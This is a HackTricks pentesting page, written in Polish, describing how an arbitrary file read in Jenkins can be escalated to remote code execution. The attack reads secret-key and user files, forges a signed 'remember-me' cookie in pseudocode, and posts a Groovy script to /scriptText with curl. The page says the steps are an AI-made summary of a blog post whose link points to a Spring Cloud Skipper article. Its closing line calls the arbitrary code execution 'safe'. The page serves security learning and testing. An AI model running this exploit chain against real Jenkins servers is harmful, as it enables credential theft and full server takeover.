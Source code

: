 # Jenkins Arbitrary File Read to RCE via "Remember Me"

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

W tym wpisie na blogu można znaleźć doskonały sposób na przekształcenie podatności Local File Inclusion w Jenkins w RCE: [https://blog.securelayer7.net/spring-cloud-skipper-vulnerability/](https://blog.securelayer7.net/spring-cloud-skipper-vulnerability/)

To jest podsumowanie stworzone przez AI części wpisu, w której nadużywa się tworzenia dowolnego ciasteczka, aby uzyskać RCE, nadużywając lokalnego odczytu pliku, aż będę miał czas, aby stworzyć własne podsumowanie:

### Wymagania wstępne ataku

* **Wymaganie funkcji:** "Zapamiętaj mnie" musi być włączone (domyślne ustawienie).
* **Poziomy dostępu:** Atakujący potrzebuje uprawnień Ogólnych/Odczytu.
* **Dostęp do sekretów:** Możliwość odczytu zarówno zawartości binarnej, jak i tekstowej z kluczowych plików.

### Szczegółowy proces eksploatacji

#### Krok 1: Zbieranie danych

**Pobieranie informacji o użytkowniku**

* Uzyskaj konfigurację użytkownika i sekrety z `$JENKINS_HOME/users/*.xml` dla każdego użytkownika, aby zebrać:
* **Nazwa użytkownika**
* **Ziarno użytkownika**
* **Znacznik czasu**
* **Hash hasła**

**Ekstrakcja klucza sekretnego**

* Wyodrębnij klucze kryptograficzne używane do podpisywania ciasteczka:
* **Klucz sekretu:** `$JENKINS_HOME/secret.key`
* **Klucz główny:** `$JENKINS_HOME/secrets/master.key`
* **Plik klucza MAC:** `$JENKINS_HOME/secrets/org.springframework.security.web.authentication.rememberme.TokenBasedRememberMeServices.mac`

#### Krok 2: Fałszowanie ciasteczka

**Przygotowanie tokena**

*   **Oblicz czas wygaśnięcia tokena:**

{% code overflow="wrap" %}
```javascript
tokenExpiryTime = currentServerTimeInMillis() + 3600000  // Dodaje jedną godzinę do bieżącego czasu
```
{% endcode %}
*   **Konkatenacja danych dla tokena:**

{% code overflow="wrap" %}
```javascript
token = username + ":" + tokenExpiryTime + ":" + userSeed + ":" + secretKey
```
{% endcode %}

**Deszyfrowanie klucza MAC**

*   **Deszyfruj plik klucza MAC:**

```javascript
key = toAes128Key(masterKey)  // Konwertuj klucz główny na format klucza AES128
decrypted = AES.decrypt(macFile, key)  // Deszyfruj plik .mac
if not decrypted.hasSuffix("::::MAGIC::::")
return ERROR;
macKey = decrypted.withoutSuffix("::::MAGIC::::")
```

**Obliczanie podpisu**

*   **Oblicz HMAC SHA256:**

```javascript
mac = HmacSHA256(token, macKey)  // Oblicz HMAC używając tokena i klucza MAC
tokenSignature = bytesToHexString(mac)  // Konwertuj MAC na ciąg szesnastkowy
```

**Kodowanie ciasteczka**

*   **Generuj końcowe ciasteczko:**

{% code overflow="wrap" %}
```javascript
cookie = base64.encode(username + ":" + tokenExpiryTime + ":" + tokenSignature)  // Koduj dane ciasteczka w Base64
```
{% endcode %}

#### Krok 3: Wykonanie kodu

**Uwierzytelnianie sesji**

* **Pobierz tokeny CSRF i sesji:**
* Wykonaj żądanie do `/crumbIssuer/api/json`, aby uzyskać `Jenkins-Crumb`.
* Przechwyć `JSESSIONID` z odpowiedzi, który będzie używany w połączeniu z ciasteczkiem "zapamiętaj mnie".

**Żądanie wykonania polecenia**

*   **Wyślij żądanie POST z skryptem Groovy:**

```bash
curl -X POST "$JENKINS_URL/scriptText" \
--cookie "remember-me=$REMEMBER_ME_COOKIE; JSESSIONID...=$JSESSIONID" \
--header "Jenkins-Crumb: $CRUMB" \
--header "Content-Type: application/x-www-form-urlencoded" \
--data-urlencode "script=$SCRIPT"
```

* Skrypt Groovy może być użyty do wykonywania poleceń na poziomie systemu lub innych operacji w środowisku Jenkins.

Przykład polecenia curl pokazuje, jak wykonać żądanie do Jenkins z niezbędnymi nagłówkami i ciasteczkami, aby bezpiecznie wykonać dowolny kod.

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
